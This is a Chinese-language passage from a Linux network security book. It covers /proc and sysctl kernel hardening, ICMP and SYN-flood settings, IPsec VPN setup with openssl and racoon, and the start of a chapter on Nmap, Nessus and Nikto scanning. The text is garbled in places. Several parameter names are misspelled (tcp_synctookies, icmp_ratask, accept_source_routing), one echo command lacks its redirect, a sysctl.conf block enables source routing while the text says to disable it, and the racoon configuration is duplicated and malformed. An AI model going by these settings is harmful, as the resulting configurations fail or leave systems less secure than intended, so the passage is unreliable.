`Linux`（以及许多 `UNIX` 系统）最迷人的特性之一是 `/proc` 文件系统，它提供了直接读取和操作内核参数的访问接口。`/proc` 被称为伪文件系统（pseudofystem）：“文件”并不是传统意义上的文件，而是一层抽象，允许直接读写内核内存区域。`/proc` 的背后的思想是为此类数据提供一个分层且易于使用的接口，使程序员或管理员不再需要学习和使用复杂的系统调用来访问信息。在 `/proc` 内部，你会找到（除其他外）关于每个运行进程、内存和 `CPU` 使用情况、机器主机以及许多网络设置的信息。

`/proc` 文件系统很大，你很容易迷路（如果你有时间，浏览 `/proc` 文件系统可以让你对 `Linux` 底层工作原理产生迷人的见）。与 `/proc` 系统的其他部分不同，`/proc/sys` 中的文件是可写的，允许你动态更改内核参数。该部分几乎所有的设置都位于 `/proc/sys/net/ipv4/` 中，它控制 `IPv4` 网络。`/proc` 中的文件可以像普通文件一样进行操作，通过 `cat` 和 `vi` 等命令行工具。然而，由于每个可配置文件只包含一个数字，直接将所需值 `echo` 到文件中更为方便。例如：

```
# cat /proc/sys/net/ipv4/tcp_fin_timeout
6
```

```
# echo 4 /proc/sys/net/ipv4/tcp_fin_timeout
```

```
# cat /proc/sys/net/ipv4/tcp_fin_timeout
4
```

更改会立即生效而不需要任何重启；然而，它们在重启后是不持久的。对于这一点，你需要将 `echo` 语句添加到启动文件之一，或者使用后面描述的 `sysctl` 方法。与防火墙和网络功能相关的设置通常放在防火墙脚本的顶部。

### Sysctl

许多 `Linux` 发行版还包含一个名为 `sysctl` 的工具用于管理 `/proc/sys` 中条目的配置。以 `root` 身份执行 `sysctl -a` 会显示可用设置列表及其值。以下片段显示了：

```
net.ipv4.tcp_low_latency = 0
net.ipv4.tcp_timeout = 0
net.ipv4.tcp_tw_reuse = 0
net.ipv4.icmp_ratask = 6
net.ipv4.icmp_ratimit = 100
net.ipv4.tcp_adv_scale = 2
net.ipv4.tcp_win = 3
net.ipv4.tcp_sync = 1
net.ipv4.tcp_fin_timeout = 6
net.ipv4.tcp_retries2 = 15
net.ipv4.tcp_retries1 = 3
```

尽管 `sysctl` 使用点分隔，但其层级结构与 `/proc/sys` 完全相同；因此 `ipv4.tcp_timeout` 指向 `/proc/sys/net/ipv4/tcp_timeout`。这种方法很容易在 `sysctl` 和 `/proc/sys` 条目之间转换。使用 `-w` 标志更改值，例如：

```
# sysctl -w kernel.hostname="hermes"
kernel.hostname = hermes
```

通过将名称传递给 `sysctl` 查看单个值：

```
# sysctl kernel.version
kernel.version = #4 Fri Nov 14 00:01:36 2023
```

当然，可以通过 `grep` 输出，这在确切键时非常有用：

```
# sysctl -a | grep arp_filter
net.ipv4.conf.eth2.arp_filter = 0
net.ipv4.conf.eth2.proxy_arp = 0
net.ipv4.conf.eth1.arp_filter = 0
net.ipv4.conf.eth1.proxy_arp = 0
net.ipv4.conf.eth0.arp_filter = 0
net.ipv4.conf.eth0.proxy_arp = 0
net.ipv4.conf.lo.arp_filter = 0
net.ipv4.conf.lo.proxy_arp = 0
net.ipv4.conf.default.arp_filter = 0
net.ipv4.conf.default.proxy_arp = 0
net.ipv4.conf.all.arp_filter = 0
net.ipv4.conf.all.proxy_arp = 0
```

### /etc/sysctl.conf

除了提供一个操作 `/proc/sys` 条目的易用接口外，`sysctl` 还通过允许创建一个名为 `/etc/sysctl.conf` 的文件解决了重启后不保存的问题。该文件的格式为：

```
token = value
```

例如：

```
net.ipv4.conf.all.proxy_arp = 0
net.ipv4.tcp_retries = 5
```


当系统重启时，会执行 `/etc/rc.d/rc_sysctl` 脚本。这反过来执行 `sysctl`，请求它设置 `/etc/sysctl.conf` 中列出的值。尽管 `sysctl` 是非常有用的工具，但并不是所有的 Linux 系统都有它；在某些情况下，通过 脚本直接操作 `/proc/sys` 条目更容易。本书一直使用脚本方法。

## 路由选项

`/proc/sys/net/ipv4/conf/` 目录包含每个接口的子目录，以及名为 `default` 和 `all` 的目录。

```
dr-xr-xr-x 2 root root 0 May 22 22:19 all
dr-xr-xr-x 2 root root 0 May 22 22:19 default
dr-xr-xr-x 2 root root 0 May 22 22:19 eth0
dr-xr-xr-x 2 root root 0 May 22 22:19 eth1
dr-xr-xr-x 2 root root 0 May 22 22:19 lo
```

在这种情况下，这些目录包含的文件都是相同的，尽管存储在其中的值可能不同。

```
# ls -l /proc/sys/net/ipv4/conf/eth0/
total 0
dr-xr-xr-x 2 root root 0 May 27 04:50 .
dr-xr-xr-x 8 root root 0 May 27 04:24 ..
-rw--r--r-- 1 root root 0 May 27 04:50 accept_redirects
-rw--r--r-- 1 root root 0 May 27 04:50 accept_source_route
-rw--r--r-- 1 root root 0 May 27 04:50 arp_filter
-rw--r--r-- 1 root root 0 May 27 04:50 boot_reply
-rw--r--r-- 1 root root 0 May 27 04:50 forwarding
-rw--r--r-- 1 root root 0 May 27 04:50 hidden
-rw--r--r-- 1 root root 0 May 27 04:50 log_martians
-rw--r--r-- 1 root root 0 May 27 04:50 mc_forwarding
-rw--r--r-- 1 root root 0 May 27 04:50 medium_id
-rw--r--r-- 1 root root 0 May 27 04:50 proxy_arp
-rw--r--r-- 1 root root 0 May 27 04:50 rp_filter
-rw--r--r-- 1 root root 0 May 27 04:50 secure_redirects
-rw--r--r-- 1 root root 0 May 27 04:50 send_redirects
-rw--r--r-- 1 root root 0 May 27 04:50 shared_media
-rw--r--r-- 1 root root 0 May 27 04:50 tag
```

在这些目录的每一个中都有一个名为 `accept_source_route` 文件，向这些文件写入 `0` 即可禁用源路由。可以将以下 shell 脚本行放在防火墙脚本中，以禁用所有接口上的源路由：

```
for f in /proc/sys/net/ipv4/conf/*/accept_source_route; do
    echo 0 > $f
done
```

如果你更倾向于使用 `sysctl` 接口，`/etc/sysctl.conf` 中的条目如下：

```
net.ipv4.conf.all.accept_source_routing = 1
net.ipv4.conf.default.accept_source_routing = 1
net.ipv4.conf.lo.accept_source_routing = 1
net.ipv4.conf.eth0.accept_source_routing = 1
net.ipv4.conf.eth1.accept_source_routing = 1
net.ipv4.conf.eth2.accept_source_routing = 1
```

根据系统上存在的接口名称，可能需要更改其中一些标记（`token`）的名称。

`路由验证`是内核尝试确保接口上只接受具有合法 IP 地址的数据包的一种。例如，启用路由验证后，进入公共接口的私有 IP 地址包将被丢弃。要为所有接口启用路由验证，请将以下内容放在防火墙脚本的顶部：

```
for f in /proc/sys/net/ipv4/conf/*/rp_filter; do
    echo 1 > $f
done
```

`ICMP 重定向`用于路由器告知主机存在比当前使用的路径更好的路径。除非这些重定向是可靠的，否则机器通常应该忽略它们，因为它们可以被用于执行中间人（MITM）攻击，导致流量通过受攻击者控制的机器：

```
for f in /proc/sys/net/ipv4/conf/*/accept_redirects; do
    echo 0 > $f
done
```

### 安全拓扑 115

安全重定向源自路由表中列为默认网关的机器。这些重定向通常应该被接受：

```
for f in /proc/sys/net/ipv4/conf/*/secure_redirects; do
    echo 1 > $f
done
```

同样，也应该禁用向其他机器发送重定向：

```
for f in /proc/sys/net/ipv4/conf/*/send_redirects; do
    echo 0 > $f
done
```

## 安全设置

正如你在第 2 章中看到的，指向网络广播的 ICMP ping 可能会形成 DoS 攻击（Smurf 攻击）的基础。这种广播 ping 可以使用 `/proc/sys/net/ipv4/icmp_echo_broadcasts` 文件忽略：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_broadcasts
```

`/proc/sys/net/ipv4/icmp_ignore_bogus_responses` 控制主机如何响应错误消息。这些错误中的大多数是无意产生的，可以安全地忽略：

```
echo 1 > /proc/sys/net/ipv4/icmp_ignore_bogus_responses
```

“火星数据包”（Martians）指的是源地址或位置异常的数据包，可能具有恶意意；示例包括源路由包、重定向以及来自无意义地址的数据包。记录火星包通常是一个好主意，并且可以为每个接口启用：

```
for f in /proc/sys/net/ipv4/conf/*/log_martians; do
    echo 1 > $f
done
```

如果你决定记录此类数据包，请记住定期检查日志文件（否则记录将毫无意义）。在第 11 章“保持安全”中，我们将更详细地查看日志记录，并检查日志管理技术，以防止大型日志文件填满硬盘，导致 DOS 攻击。

## ICMP 消息

是否响应局域网上的机器（区别于来自互联网的机器）是一个存在争议的话题。ping 对于诊断目的确实有用，但它们可以被用于引发 DOS 攻击。此外，响应 ping 请求会确认机器是存活的。一种常见的折中方案是启用 ping，通过限制响应速率来减少其被恶意滥用的可能性。这可以通过 `iptables`（第 6 章“基本系统措施”介绍）或 `/proc/sys/net/ipv4/icmp_ratelimit` 中的条目来实现。

在某些系统中，ICMP 回显应答速率通过 `/proc/sys/net/ipv4/icmp_echo_rate` 文件控制，但这通常已被 `/proc/sys/net/ipv4/icmp_ratelimit` 取代，后者提供了一种控制不同类型 ICMP 响应的灵活方法。速率限制设置以 `jiffies` 指定，这是一个由系统计时器定义的时间单位：在 x86 平台上，一个 jiffy 通常是 0.01 秒。给定的 ratelimit 数值是内核在发送另一条相同类型的 ICMP 消息之前必须等待的 jiffies 数。默认值为 100，即间隔为 100 jiffies，或 1 秒。值为 10 则允许每秒通过 10 条 ICMP 消息。这有点违背直觉，因为常识认为数值越小保护效果越好。默认的 ICMP 速率在大多数情况下没有问题，但为了增加保护，你可能想将其增加到每 2 秒一次：

```
echo 200 > /proc/sys/net/ipv4/icmp_ratelimit
```


比此高的任何值都是过分的，尽管低于 `100` 的值效果有限。如前所述，`icmp_ratelimit` 是一种通用配置，控制一组 ICMP 类型。哪些 ICMP 消息受 `/proc/sys/net/ipv4/ratemask` 控制。该文件中的值作为掩码存储，通过对每个 ICMP 类型求和 $2^n$ 创建，其中 $n$ 是 ICMP 类型。表 3.1 显示了有效的 ICMP 类型；注意某些 ID 尚未定义。

表 3.1 ICMP 类型

| 数值 ID | ICMP 类型 |
|---|---|
| 0 | Echo Reply (回答) |
| 3 | Destination Unreachable (目标不可达) |
| 4 | Source Quench (源抑制) |
| 5 | Redirect (重定向) |
| 8 | Echo (回显) |
| 11 | Time Exceeded (超时) |
| 12 | Parameter Problem (参数问题) |
| 13 | Timestamp (时间戳) |
| 14 | Timestamp Reply (时间戳回答) |
| 15 | Information Request (信息请求) |
| 16 | Information Reply (信息回答) |
| 17 | Address Request (地址请求) |
| 18 | Address Reply (地址回答) |

默认掩码为 `6168`，这意味着目标不可达、源抑制、超时和参数问题。这可以计算为：

```
ratemask = 2^3 + 2^4 + 2^11 + 2^12
```

其中索引 3, 4, 11 和 12 代表上述四种类型的数值。如果数学不是你的强项，Andreasson 写了一个名为 `ratemask` 的工具 (http://www.frozentux.net/ratemask/) 来创建此类掩码。要使用 `ratemask`，只需指定逗号分隔的 ICMP 类型列表：

```
$ ratemask -v redirect,time-exceeded,parameter-problem,timestamp-request

redirect: 32

time exceeded: 2048

parameter problem: 4096

timestamp request: 8192

Final ratemask: 14368
```

## TCP 设置

在第 2 章中，你遇到了 SYN 洪水，这是一种 DOS 攻击，受害者被 SYN 数据包填满内存并阻止合法用户连接。在本节中，我们查看通过 `/proc` 文件系统访问的内核设置，这些设置可以在减少此类攻击（和其他类型）的同时提高性能。除非另有指定，本节中的所有 `/proc` 条目位于 `/proc/sys/net/ipv4`。

当客户端通过设置 `FIN` 标志的数据包关闭连接时，服务器对此进行 `ACK` 并返回自己的 `FIN`，预计客户端会确认它。这种安排如图 3.11 所示。

 图 11 关闭 TCP 连接期间发送的数据包。

不幸的是，并不是所有客户端都选择发送最后的 `ACK`，这会导致连接挂起并占用服务器内存直到超时。`tcp_fin_timeout` 设置控制此值，默认值为 `60` 秒。这是对 2.2 内核的巨大改进（其默认值为 `180` 秒），但你可能仍然想进一步降低它。大约 `20` 秒可能是影响合法连接之前可以接受的最小值。

## 安全拓扑 119

### SYN Cookies

正如你在第 2 章中看到的，SYN 洪水的一个关键要素是它们通常源自伪造的、使用的 IP 地址。如果使用了活动主机的地址，目标服务器发送的 `SYN-ACK` 将导致主机回复 `RST`。收到此后，服务器将丢弃半打开连接，降低缓冲区积压并释放内存。“SYN cookie”中的“cookie”实际上是初始序列号（`ISN`），这是一个由内核选择的值，设计为在实践中无法预测。使用 SYN cookies 后，`ISN` 是由几个值组成的哈希，包括客户端 IP 和端口、服务器 IP 和端口以及 32 位计时器。当客户端通过响应一个 `ISN` 加 `1` 的 `ACK` 来完成三次握手时，服务器可以使用此 `ISN` 重建原始队列条目。巨大的优势是，在三次握手的最后一步之前，不需要分配内存（因为所有信息都编码在 cookie 中），而来自伪造地址的连接尝试永远到达这一阶段。此外，cookie 不需要在客户端侧进行重新配置，并且完全符合 TCP 标准（与某些说法相反）。它们唯一的缺点似乎是编码和解码 cookie 带来的开销略有增加。可以通过 `tcp_synctookies` 文件在 Linux 中启用 SYN cookies：

```
echo 1 > /proc/sys/net/ipv4/tcp_synctookies
```

注意，你可能需要重新编译内核以启用此选项。请参考附录 A“重新编译 Linux 内核”和附录 B“网络内核选项”获取更多详情。

### SYN backlog

你还可以增加 TCP SYN 积压队列的大小，即在服务器开始拒绝数据包之前，等待响应的传入 SYN 数据包应该在队列中的数量。默认值取决于系统上的内存大小：对于内存大于 `128 MB` 的机器，该值为 `1024`。增加此值以消耗更多内存为代价提供了额外的 SYN 洪水保护：

```
echo 256 > /proc/sys/net/ipv4/tcp_max_syn_backlog
```


# 120 Linux 网络安全

附录 C 包含了完整的防火墙路由脚本，包括本章创建的`/proc`设置和`iptables`规则集。

## 3.5 虚拟专用网络与 IP 安全

当单台机器或网络希望通过不可信的网络（如互联网）进行通信时，仅有数据包过滤是不够的：你还必须保护传输中数据的隐私性和完整性。虚拟专用网络（VPN）是创建网络拓扑结构最常用的方法，而`IPsec`（IP 安全）协议则处理加密和身份验证等问题。`VPN`和`IPsec`结合提供了一种连接两个远程局域网（LAN）的强大方法，这正是本节的主题。

### 虚拟专用网络 (VPN)

虚拟专用网络 (VPN) 是一种允许两个网络在连接双方为不可信第三方的情况下，以安全方式进行相互通信的方法。例如，两个私有局域网（如属于位于两个城市办公室的组织）想要相互通信。远距离的专线昂贵得惊人，因此更具成本效益的替代方案是通过互联网这一公共的、不可信的介质进行通信。`VPN`通过在网络之间建立安全通道来解决这一问题，产生两个网络是直接连接的错觉。在这种背景下，互联网是一条与许多其他用户共享的巨大太网线。

图 3.12 显示了连接两个局域网的`VPN`。注意不要在每个局域网中使用相同的内部`IP`地址空间，因为这会导致主机冲突和路由问题。在这个示例中，工作站 A 可以通过向 B 的内部`IP`地址发送`FTP`流量来访问内部文件服务器 B。

`IPsec`提供的安全隧道是实现`VPN`的极佳方法。通过使用每个网络的边界路由器作为隧道的端点，经过不可信公共网络的流量得到了安全保护，但经过相对可信的局域网的流量则不受保护。在这种安排中，只有需要符合`IPsec`标准的两台机器——即防火墙路由器（隧道模式或传输模式下的封装安全载负载`ESP`）。

### 移动战士 (Road Warriors)

移动战士是指那些从远程位置连接到私有网络的用户，形成一个`VPN`。然而，与我们在上一个示例中看到的`VPN`拓扑结构不同，移动战士（通常）是一个单一主机，而不是一个独立的网络。

## 网关 1
## 网关 2



| | |
| :--- | :--- |
| `1.2.3.4` | |
| `192.168.0.1` | `5.6.7.8` |
| `10.0.9.1` | `192.168.0.2` |
| `192.168.0.3` | `192.168.0.4` |
| `10.0.9.7` | `10.0.9.8` |
| `10.0.9.46` | |

<div align="center">图 3.12 一个`VPN`通过互联网连接了两个或多个私有网络。</div>

### IPsec

`IPsec` (IP 安全) 是现有`IP`的扩展，用于保护数据包头部和/或其数据的完整性。`IPsec`最初是为新的`IPv6`设计的，但也回溯到了当前的`IPv4`。`IPsec`由两个`IP`扩展组成 [IPsec Charter]：之前介绍的`AH`（身份验证头）和`ESP`（封装安全载负载）。

`AH`保护整个数据包的完整性，包括源地址和目的`IP`地址等头部信息。这是最安全的头部身份验证/完整性方法，但遗憾的是它与`NAT`不兼容，因为`NAT`过程的一部分涉及重写源地址或目的地址。相比之下，`ESP`只保护数据包的载荷（即它包含的应用层数据，而不是数据包头），但它同时提供了完整性检查和加密，并且——通过一些额外工作——可以在`NAT`设备上使用。表 3.2 阐述了各者提供的主要功能。由于缺乏加密，`AH`很少单独使用，某些实现甚至选择完全不支持它。

### 表 3.2 AH 和 ESP 协议的比较

| 安全机制 | `AH` | `ESP` |
| --- | --- | --- |
| 数据加密 | 否 | 是 |
| 防止重放攻击 | 可选 | 可选 |
| 数据完整性 | 是 | 是 |
| 头部（源）完整性 | 是 | 否 |
| `NAT` 兼容性 | 否 | 有时* |

*只有当`ESP`在隧道模式下使用时才具有`NAT`兼容性。

### 传输与隧道

`IPsec`为机器间的通信提供了两种模式：`传输` (Transport) 和 `隧道` (Tunnel)。传输模式通常用于客户端到客户端的通信，安全通道的起点于一台机器并终止于另一台机器，如图 3.13 所示。



<div align="center">图 3.13 传输模式。</div>

## 安全拓扑 123

在传输模式下，双方主机必须支持`IPsec`。传输模式也用于某些远程访问协议，例如`L2TP`（二层隧道协议）。

隧道模式最常用于对站点`VPN`，由网关负责安全。在这种安排中，需要符合`IPsec`标准的两台机器是防火墙路由器。在对进入数据应用`NAT`之前，在对出站数据应用`NAT`之前，避免任何使用隧道模式的`AH`或`ESP`。在这种情况下，从 A 发往 B 的数据加密方案可能与从 B 发往 A 的数据加密完全不同。图 3.14 展示了隧道模式。



<div align="center">图 3.14 隧道模式。</div>

`IPsec`提供的安全隧道是实现`VPN`的极佳方法。通过使用每个网络的边界路由器作为隧道的端点，经过不可信公共网络的流量得到了安全保护，但经过相对可信的局域网的流量则不受保护。在这种安排中，需要符合`IPsec`标准的两台机器——即防火墙路由器（隧道模式或传输模式下的封装安全载负载`ESP`）。

## IPsec 初始化

在使用`IPsec`通信之前，双方必须执行此处概述的初始化步骤。

### 身份验证与密钥交换

在两台机器使用`IPsec`通信之前，必须派生或已知编码解码密钥；在此之前，每侧必须能够正确识别对方。这产生了一个问题，因为需要共享密钥的安全方法，但在密钥派生之前，无法建立安全通道。这个问题通过使用公钥密码学 (PKC) 来解决，该主题在附录 E “密码学”中有更深入的介绍。`PKC`允许双方使用私钥和公钥进行身份验证。`IKE`（互联网密钥交换）协议随后使用自动密钥系统来派生`IPsec`密钥。这些密钥会定期刷新。

### 安全关联 (SA)

通过`IKE`进行密钥交换是可以在`IPsec`通信之前必须进行的更通用协商的一部分。其他信息——例如使用的协议（`AH`、`ESP`或两者都有）、密钥寿命和密码学——必须先达成一致。这些参数的集合术称为安全关联 (SA)，有时称为`SA`束。一个`SA`仅适用于单向流量，对于更常见的`TCP`双向通信，需要两个`SA`。对于此，从 A 发往 B 的数据加密方案可能与从 B 发往 A 的数据加密完全不同。`SA`协商由`IKE`处理。一个示例`SA`可能如下：

```
add 192.168.0.1 10.0.0.4 1234 hmac-md5 "secretkey";
```

# 安全拓扑 125

此指令指示从`192.168.0.1`到`10.0.0.4`的`IPsec`流量需要应用身份验证头（authentication headers），使用密钥为`"secretkey"`的`hmac-md5`方法。对于相反方向的流量，需要一个独立的`SA`，它可以使用不同的认证规则：

```
add 10.0.0.4 192.168.0.1 ah 9876 -A hmac-md5 "abcdefg";
```


然而，两个主机都拥有每个密钥相同的副本。`SA` 详情存储在名为安全策略数据库（`SPD`）的数据库中。当入站或出数据包到达接口时，会对 `SPD` 检查源和目的 `IP` 地址等字段。如果找到匹配项，将读取连接的 `SA` 并将其应用到数据包。通过这种方式，多个连接（每个连接使用不同的 `SA`）可以与普通的非 `IPsec` 流量共存。通常，一对子网之间的所有连接都会通过同一对 `SA`。

### 使用 IPsec 实现 VPN

在 `Linux 2.2` 和 `2.4` 中，`IPsec`（这些内核不包含它）通常使用 `FreeS/WAN` 包实现，该包提供了用户空间和内核空间的工具。随着 `2.6` 内核系列的引入，`IPsec` 现在已得到原生支持，`FreeS/WAN` 提供的许多功能是冗余的（`FreeS/WAN` 已移植到 `2.6` 内核，成功程度不一）。`Linux 2.6` 内核的 `IPsec` 实现与 `BSD`（`OpenBSD`, `FreeBSD`, `NetBSD`）使用的非常相似，而 `BSD IPsec` 工具 `KAME` 的移植版——`ipsec-tools`，现在是标准的用户空间工具。

### 安装

`ipsec-tools`（可从 `http://ipsec-tools.sourceforge.net/` 下载）包含以下三个程序：

- `libsec`: `IPsec` `C` 库
- `setkey`: 用于操作 `SA`
- `racoon`: 一个 `IKE` 守护进程

这三个程序都可以通过进入源目录并执行标准的 `./configure; make; make install` 序列来同时构建。

### X.509 证书

要使用带有 `IKE` 的自动密钥交换和证书认证，首先需要为每个主机生成一个 `X.509` 证书（顺便说，可以使用预共享密钥代替证书进行认证，但通常更于后者，后者会让密钥管理变得简单得多）：

```
$openssl req -new -nodes -newkey rsa:sha1:1024 -keyform \ PEM -keyout gateway1.private -outform PEM -out request.pem

Generating a 1024 bit RSA private key

........+

******

-------

writing new private key to 'gateway1.private'
```

你将被要求输入将并到证书请求的信息。
你将要的内容被称为区分名称（`Distinguished Name` 或 `DN`）。
有很多字段，但你可以留某些字段为空，某些字段会有默认值，
如果你输入 `'.'`，该字段将留空：

- 国家名称（两位代码） `[AU]:UK`
- 州或省份名称（全称） `[Some-State]:none`
- 地区名称（例如，城市） `[]:London`
- 组织名称（例如，公司） `[Internet Widgits Pty Ltd]:example.com`
- 组织单位名称（例如，部门） `[]:example`
- 通用名称（例如，你的名字） `[:peter smith`
- 邮箱地址 `[]:pete@example.com`

请输入以下随证书请求一起发送的“额外”属性
挑战密码 `[]:asecret`
可选公司名称 `[]:`

接下来，对此密钥进行“自签名”：

```
$openssl x509 -req -in request.pem \
-signkey gateway.private -out gateway.public

Signature ok

subject=/C=UK/ST=none/L=London/O=example.com/OU=example
```

`CN=peter smith/emailAddress=pete@example.com`
获取私钥

此过程为每个需要密钥的网关重复。生成的公钥和私钥应移动到 `/usr/local/etc/racoon/certs`。每个公钥（仅限其公钥）也应与其他网关共享。在我们的示例中，`Gateway-way1` 上的目录 `/usr/local/etc/racoon/certs/` 将包含以下密钥：

- `gateway1.private`
- `gateway1.public`
- `gateway2.public`

`Gateway2` 上的相同目录将包含这些密钥：

- `gateway2.private`
- `gateway2.public`
- `gateway1.public`

每个密钥应由 `root` 所有并设置 `chmod 700`。

### 配置 Racoon

默认的 `racoon` 配置文件位于 `/usr/local/etc/racoon.conf`。在 `Gateway1` 上，我们在文件中添加以下内容：

```
path certificate "/usr/local/etc/racoon/certs";

remote_mode 192.168.0.1

{
    exchange_mode main;
    my_identifier asnid;
    peers_identifier asnid;
    certificate_type x509 "gateway2.public" "gateway1.private";
    peers_certfile "gateway1.public"

    proposal {
        encryption_algorithm 3des;
        hash_algorithm sha1;
        authentication_method rsasig;
    }
}
```


`path certificate "/usr/local/etc/racoon/certs";`

`remote_mode 192.168.0.1`
```
{
    exchange_mode main;
    my_identifier asnid;
    peers_identifier asnid;

    certificate_type x509 "gateway2.public" "gateway1.private";

    peers_certfile "gateway1.public"
    proposal {
        encryption_algorithm 3des;
        hash_algorithm sha1;
        authentication_method rsasig;
    }
}
```

7. 严格来说，DMZ 也是局域网（`LAN`）的一部分。我们使用“`LAN`”来代替网络的私有部分，因为比说“私有局域网”或“局域网的非 DMZ 部分”更清晰、简洁。

8. `UDP` 是 `DNS` 查询的首选方法。然而，如果回复过大而无法放入单个 `UDP` 数据报中，则将通过 `TCP` 传输。这同样适用于其他 `DNS` 消息，例如区域传输。

9. `FTP` 客户端可以通过发布 `pass` 命令来切换被动模式的开启或关闭，从而选择使用哪种方法。

10. 这仅意味着你可以确定数据没有经过任何方式的篡改。它并不意味着数据已经加密以防止窃听。

## 参考文献

- [Borisov02] Borisov, Nikita, et al., “Security of the WEP Algorithm.” 在线：`http://www.isaac.cs.berkeley.edu/isaac/wep-faq.html`, 2002.
- [IPsec Charter] `IP` 安全协议章程。在线可用：`http://www.ietf.org/html.charters/ipsec-charter.html`.
- [Iptables Doc] `IPTables` 在线文档。在线可用：`http://www.netfilter.org`.
- [Sipes2000] Sipes, Steven, “Why Your Switched LAN Isn’t Secure.” 在线：`http://www.sans.org/resources/idfaq/switched_network.php`, 2000.

# 评估网络

本章内容

- 使用 `Nmap` 进行端口扫描
- 使用 `Nessus` 进行漏洞审计
- 使用 `Nikto` 进行网站审计

第 3 章“安全拓扑结构”中讨论的网络拓扑和基础 `NAT`/路由为网络安全提供了一个良好的起点，但仍有许多工作要做。为了准确评估漏洞所在在哪里，把自己置于攻击者的立场会非常有帮助。

在本章中，你将像攻击者可能的那样对网络进行安全审计。我们将介绍流行的 `Nmap` 端口扫描器所提供的各种扫描技术，然后转向使用 `Nessus` 和 `Nikto` 进行漏洞扫描。虽然这三个工具远不是黑客常用的网络扫描器的详尽列表，但它们代表了一些最受欢迎的工具，而且都极其强大。在本章结束处，我们还提供了一些可以找到类似工具的链接。

对于不熟悉该术语的人，端口扫描是查询 `TCP` 或 `UDP` 端口以发现是否有服务在这些端口监听的过程；这对于黑客来说非常有用，因为它可以让他们快速看到进入系统的可能切入点。端口扫描器正变得越来越智能，许多工具不再仅仅报告端口是开放还是关闭的，还可以检测防火墙是否阻止了对端口的访问、端口上运行的服务名称和版本，以及该服务运行的操作系统，这些对潜在攻击者可能都具有进一步的用途。

漏洞扫描是端口扫描的扩展，涉及尝试发现发现在 `TCP`/`UDP` 端口上监听的服务是否有任何可以利用的。漏洞扫描器通常结合使用被动技术（获取服务的名称和版本，并在数据库中查找以查看是否存在已知漏洞）和攻击技术（不再依赖数据库，扫描器尝试利用漏洞，并报告是否成功）。再次，这让黑客的生活变得简单了，因为他将看到一份他正在扫描的系统的缺陷列表。

正如你所见，因此，在意图不纯的人之前，先使用工具对自己的网络进行扫描是非常重要的。在书的后面，我们将向你展示如何消除在扫描系统时可能发现许多不必要的服务，以及如何有效地保护剩余的服务。

在扫描时，重要的是结果将取决于你在网络中哪个位置执行扫描。最大的危险来自来自外部的攻击，因此要从这个角度进行扫描，你需要一台外部机器——最好具有 `root` 权限（`Nmap` 也适用于 `Win32` 系统）。如果你没有这种待遇，将一台 `Linux` 工作站从 `LAN` 中断开，直接通过旧的 56 `KB` 调制调器连接到互联网也可以正常工作。如果失败，来自远程托管公司的 `shell` 账户至少可以让你有机会以特权用户执行基于控制台的扫描；但记住，许多 `ISP` 会封锁某些端口（例如 `Net-BIOS`），因此结果可能并不完全准确。

取决于你组织的性质，内部攻击也可能是一个威胁，应该从防火墙和 `DMZ` 上典型用户的视角进行扫描。相反，从 `DMZ` 的视角扫描防火墙和内部局域网也是重要的；我们预见到攻击者可能会进入 `DMZ`，他的首要动作之一将是对网络的其余部分进行端口扫描，希望绕过严格的安全防护。

最后，请记住只扫描你拥有或已获得事先许可扫描的网络。未经授权的扫描（即使仅仅出于好奇而非恶意）通常被认为是不道德且不礼貌的，更不用说违反了大多数 `ISP` 的可接受使用政策（`AUP`），而且在许多国家法律存疑。

# 评估网络

## 4.1 PORTmap

`Nmap` 在近年来取得了巨大的成功，轻松地成为全球最流行的安全审计工具之一；事实上，这个词本身已成为端口扫描的同义词，人们经常谈论“`nmapping`”或被“`nmapped`”。`Nmap` 有什么特别的吗？在过去，端口扫描一直是某种被忽视的艺术；尽管有各种扫描技术，但大多数扫描器只实现标准的 `TCP` `connect()`，认为该领域不值得认真对待。`Nmap` 改变了这一切，为端口扫描这一迷人的课题带来了应有的关注。

``

`Nmap` 随许多 `Linux` 发行版一起提供，可以在附的 `CD-ROM` 中找到。或者，你可以访问 `http://www.insecure.org`。由于用法已在手册（`man nmap`），我们不会过多讨论，而是重点讨论扫描技术和一些高级功能。

### 扫描类型与选项

`Nmap` 提供了一系列不同的扫描方式，从标准的（`TCP` `connect()`）到奇特的（`Xmas`）。

- `TCP` `connect()` (`-sT`)：完成三次握手。这是最基础的扫描形式，不需要 `root` 权限。
